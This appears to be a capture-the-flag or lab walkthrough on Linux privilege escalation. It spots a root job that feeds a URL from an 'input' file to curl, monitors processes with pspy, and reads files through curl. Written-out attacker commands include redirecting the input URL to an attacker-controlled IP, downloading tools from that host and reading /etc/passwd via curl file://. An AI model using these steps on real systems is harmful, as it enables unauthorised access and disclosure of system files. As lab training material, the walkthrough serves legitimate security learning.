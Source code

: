 #### Method 1 - time stamps

	ls -la
	
```bash
total 28
drwxr-x--- 2 root   floris  4096 May 22  2018 ./
drwxr-xr-x 6 floris floris  4096 May 22  2018 ../
-rw-rw---- 1 root   floris    25 Jul 10 10:16 input		// input & report are same date/time as local PC.
-rw-rw---- 1 root   floris 14236 Jul 10 10:16 report
```

`cat input .txt`	

	url = "http://127.0.0.1"

Gets HTML root source of page:

	cat report

Test with connection to our HTTP server:

	echo 'url = "10.10.17.201"' > input

#### Method 2 - syslog

	less /var/log/syslog

#### Method 3 - pspy

Download statically compiled binary locally:

	wget https://github.com/DominicBreuker/pspy/releases/download/v1.2.0/pspy64s

Check that the file is an executable:

	file pspy64s

Start Simple HTTP Server:

	python -m SimpleHTTPServer 80		// Python
	python3	-m http.server 80			// Python 3

Download to target system:

	curl 10.10.17.201/pspy64s -o pspy64s

Spy on processes:

```
./pspy64s -fc	// -f 	print file system events
				// -c	color
```

### Use curl to retrieve files from arbitrary locations

	curl file:///etc/passwd

```
lightdm:x:132:140:Light Display Manager:/var/lib/lightdm:/bin/false
kali:x:1000:1000:Kali,,,:/home/kali:/usr/bin/zsh
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
```
